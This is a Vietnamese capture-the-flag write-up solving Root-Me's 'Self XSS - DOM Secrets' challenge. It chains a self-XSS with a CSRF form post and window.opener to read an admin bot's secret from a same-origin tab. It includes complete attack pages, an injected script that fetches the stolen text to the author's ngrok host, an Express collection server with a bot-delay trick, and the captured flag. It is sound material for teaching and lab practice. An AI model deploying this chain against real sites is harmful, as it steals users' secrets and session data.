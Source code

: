 # ROOT-ME

## Self XSS - DOM Secrets

Bài này tương tự như TBDXSS

Challenge này cho chúng ta nhập vào `username` và `secret`, sau khi nhập xong thì chúng ta có thể xem secret ở `/profile`. Test thử xss ở 2 đầu vào này thì chỉ có secret bị filter còn `username` thì không do đó ta có thể trigger được xss `<script>alert(1)</script>`.

Nhưng mấu chốt của bài này không nằm ở đó, bởi vì đầu vào gây ra xss cũng sẽ khiến secret của admin bot thay đổi. Ta không thể đọc trực tiếp từ `attacker site` bởi vì dính CORS, nhưng vì có thể xss do đó chúng ta có thể lợi dụng điều này để đọc flag bởi vì hai tab cùng origin. 

Ý tưởng là giữ một tab chứa secret đã in ra và một tab chứa tải trọng xss đọc secret từ tab đó. Bài này có hai cách để giải quyết:
- Đặt tên cho cửa sổ bằng `window.open('http://example.com', 'hehehe');`, sau đó ở trang xss sẽ mở cửa sổ hehehe bằng `window.open('', 'hehehe');`. Nhưng hình như bây giờ browser đã chặn cách này bằng cơ chế same origin rồi. Các bạn có thể kiểm tra như writeup [này](https://ctftime.org/writeup/30882) của tác giả.
- Bây giờ chỉ còn cách sử dụng window.opener như bài này đề cập.

Nói sơ qua về `window.opener` thì khi chúng ta mở một tab gọi là tab thứ 2 bằng `window.open` từ tab thứ nhất, thì khi đứng ở tab thứ 2, ta có thể tham chiếu đến tab thứ nhất bằng `window.opener` hoặc tab mở ra tab thứ nhất bằng `window.opener.opener` và đệ quy tiếp như vậy. 

Khi tham chiếu đến tab thứ nhất, ta có thể đọc nội dung từ tab thứ nhất từ tab thứ hai nếu cả hai tab đều chung origin. Do đó bây giờ ta CSRF như sau:
> /main
```html
<script>
    window.open(location.href.replace('main', 'form'));
    window.open(location.href.replace('main', 'execute'));
    location.href = 'http://challenge01.root-me.org:58003/profile';
</script>
```
- Khi truy cập vào trang của chúng ta, ta sẽ cho mở hai tab: Một tab submit form chứa payload xss, một tab để thực thi đoạn mã sau khi đã submit form. 
- Sau đó ta sẽ cho tab main này redirect đến `http://challenge01.root-me.org:58003/profile`, mục đích là để ở trang execute với tải trọng từ submit form, khi gọi đến `window.opener` sẽ là window main khi này đã redirect đến trang profile chứa secret của admin. Hai trang bây giờ đã là same origin nên ta có thể đọc được flag từ trang execute.

> /execute
```html
<body>
    <script>
        setTimeout(() => {
            location.href = 'http://challenge01.root-me.org:58003/profile';
        }, 2000);
    </script>
</body>
```

> /form
```html
<body>
    <form method="POST" action="http://challenge01.root-me.org:58003/login" target="_blank" id=f>
        <input id="username" name="username"></input><br>
        <input id="secret" name="secret"></input><br>
    </form>
    <script>
        payload = `
        <script>
            let flag = window.opener.document.body.innerText;
            let encodedFlag = encodeURIComponent(flag);
            fetch('<%= OUR_URL %>/flag?flag=' + encodedFlag);
        \x3C/script>
        `
        f.username.value = payload;
        f.submit();
    </script>
</body>
```

Nhưng như vậy là vẫn chưa thể lấy flag được, bởi vì chắc người làm ra chall này lấy luôn con bot của Chall TBDXSS pbCTF2021, có một đoạn như sau:
```js
try {
    const resp = await page.goto(url, {
        waitUntil: 'load',
        timeout: 20 * 1000,
    });
} catch (err){
    console.log(err);
}
```

Nó chỉ thực hiện đợi cho đến khi load xong thì sẽ kết thúc thay vì sử dụng `networkidle0` như bình thường. Do đó ta cần delay con bot để đủ thời gian lấy flag, ở đây ta có thể delay bằng cách cho load một image mà trang trả về image sẽ delay một thời gian rồi mới trả về kết quả.
> /
```html
<script>
    window.open(location.href + 'main')
</script>
<img src="<%= OUR_URL %>/delay">
```

Mình host server bằng express và ngrok như sau:
```js
const express = require('express');
const app = express();

const PORT = 5000;

const OUR_URL = 'https://bbf7-2001-ee1-fa03-c960-48e3-4a7-ec6b-fdd1.ngrok-free.app';

app.disable('etag');
app.set("view engine","ejs");
app.set("views","./views");

app.get('/execute', (req, res) => {
    res.render('execute', { OUR_URL });
});

app.get('/form', (req, res) => {
    res.render('form', { OUR_URL });
});

app.get('/flag', (req, res) => {
    let flag = req.query.flag;
    console.log(flag);
    res.send('hit the flag');
});

app.get('/main', (req, res) => {
    res.render('main', { OUR_URL });
});

app.get('/delay', function(req, res) {
    setTimeout(()=> {
        res.sendStatus(404);
    }, 20000)
});

app.get('/', (req, res) => {
    res.render('index', { OUR_URL });
});

app.listen(PORT, () => {
    console.log(`Server listening on port ${PORT}...`);
});
```

```sh
node ./server.js
ngrok http 5000
```

Flag:

```
Server listening on port 5000...
Secrets Keeper

Login | Profile | Report

Welcome Root-Me Bot, your secret is safe thanks to our no database system.

Everything is stored in your session so, no one can steal it!




Your secret: RM{S4lF_XSS_4r3_D4nG3r0uS}
```

